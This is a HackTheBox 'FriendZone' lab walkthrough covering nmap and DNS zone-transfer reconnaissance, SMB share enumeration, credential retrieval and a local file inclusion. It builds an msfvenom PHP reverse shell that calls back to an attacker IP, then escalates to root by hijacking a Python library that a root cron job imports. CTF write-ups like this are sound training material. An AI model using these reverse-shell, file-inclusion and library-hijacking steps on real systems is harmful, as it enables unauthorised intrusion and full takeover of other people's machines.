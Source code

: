 # FriendZone

FriendZone is a easy HTB lab that focuses on DNS enumeration, injection payloads and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

### Recon
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.41.205

Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-10 22:44 GMT
Nmap scan report for 10.129.41.205
Host is up (0.092s latency).
Not shown: 65528 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a96824bc971f1e54a58045e74cd9aaa0 (RSA)
|   256 e5440146ee7abb7ce91acb14999e2b8e (ECDSA)
|_  256 004e1a4f33e8a0de86a6e42a5f84612b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-title: 404 Not Found
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -40m00s, deviation: 1h09m16s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-01-10T22:46:26
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2024-01-11T00:46:26+02:00
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.91 seconds
```

Also from enumerating the website, we got following email `info@friendzoneportal.red` from the website.

Based on this and the nmap output, let's check we can get more domains with zone transfer.
```
$ dig axfr friendzone.red @10.129.41.205

; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr friendzone.red @10.129.41.205
;; global options: +cmd
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.		604800	IN	AAAA	::1
friendzone.red.		604800	IN	NS	localhost.
friendzone.red.		604800	IN	A	127.0.0.1
administrator1.friendzone.red. 604800 IN A	127.0.0.1
hr.friendzone.red.	604800	IN	A	127.0.0.1
uploads.friendzone.red.	604800	IN	A	127.0.0.1
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 89 msec
;; SERVER: 10.129.41.205#53(10.129.41.205) (TCP)
;; WHEN: Wed Jan 10 22:57:36 GMT 2024
;; XFR size: 8 records (messages 1, bytes 289)
```

Adding new domains found to `/etc/hosts`.
```
sudo tee --append /etc/hosts <<< "10.129.41.205 uploads.friendzone.red hr.friendzone.red administrator1.friendzone.red friendzone.red"
```

Enumerating the SMB shares:
```
IP=10.129.41.205;
$ sudo crackmapexec smb $IP -u '' -p '' --shares;

SMB         10.129.41.205   445    FRIENDZONE       [*] Windows 6.1 (name:FRIENDZONE) (domain:) (signing:False) (SMBv1:True)
SMB         10.129.41.205   445    FRIENDZONE       [+] \: 
SMB         10.129.41.205   445    FRIENDZONE       [+] Enumerated shares
SMB         10.129.41.205   445    FRIENDZONE       Share           Permissions     Remark
SMB         10.129.41.205   445    FRIENDZONE       -----           -----------     ------
SMB         10.129.41.205   445    FRIENDZONE       print$                          Printer Drivers
SMB         10.129.41.205   445    FRIENDZONE       Files                           FriendZone Samba Server Files /etc/Files
SMB         10.129.41.205   445    FRIENDZONE       general         READ            FriendZone Samba Server Files
SMB         10.129.41.205   445    FRIENDZONE       Development     READ,WRITE      FriendZone Samba Server Files
SMB         10.129.41.205   445    FRIENDZONE       IPC$                            IPC Service (FriendZone server (Samba, Ubuntu))
```

Reading the data present in `general` SMB share.
```
$ sudo smbclient -N \\\\$IP\\general -U '';
smb: \> get creds.txt
```

Reading the `creds.txt` from the SMB share.
```
$ cat creds.txt 
creds for the admin THING:

admin:WORKWORKH*********@#
```

`https://administrator1.friendzone.red/` has login screen where we can use this credentials. After that we find different urls but finally we got injection using https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=timestamp and https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=login.

### User

Preparing the reverse shell that we can put in the Development SMB which we have write access on.

```
$ msfvenom -p php/reverse_php LHOST=10.10.14.140 LPORT=4444 -f raw > rev_shell.php

$ sudo smbclient -N \\\\10.129.41.234\\development -U 'admin%WORKWORKH*********@#';
smb> put rev_shell.php
```
Opening the pages https://administrator1.friendzone.red/dashboard.php?image_id=../../../Development/c.jpg&pagename=/etc/Development/rev_shell gives reverse shell.

```
$ nc -lvnp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.129.41.234.
Ncat: Connection from 10.129.41.234:52164.
id   
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Enumerating the machine and we get the following information available to us in conf file:
```
$ cat mysql_data.conf

for development process this is the mysql creds for user friend
db_user=friend
db_pass=*********!0.213$
db_name=FZ
```

Logging in with credentials provided and getting the user flag:
```
$ ssh friend@10.129.41.234
*********!0.213$

$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Investigating using `pspy`, we can find that root is actually invoking the `reporter.py` file.

```
2024/01/11 05:00:01 CMD: UID=0     PID=17332  | /usr/bin/python /opt/server_admin/reporter.py 
2024/01/11 05:00:01 CMD: UID=0     PID=17331  | /bin/sh -c /opt/server_admin/reporter.py 
2024/01/11 05:00:01 CMD: UID=0     PID=17330  | /usr/sbin/CRON -f 
```

using `linpeas.sh` we found that apart from the files in the share we have /usr/lib/python2.7/os.py. 

Updated the code in `/usr/lib/python2.7/os.py` to execute `system("cp /root/root.txt /home/friend/dummy.txt")`

Getting the flag:
```
~$ cat dummy.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
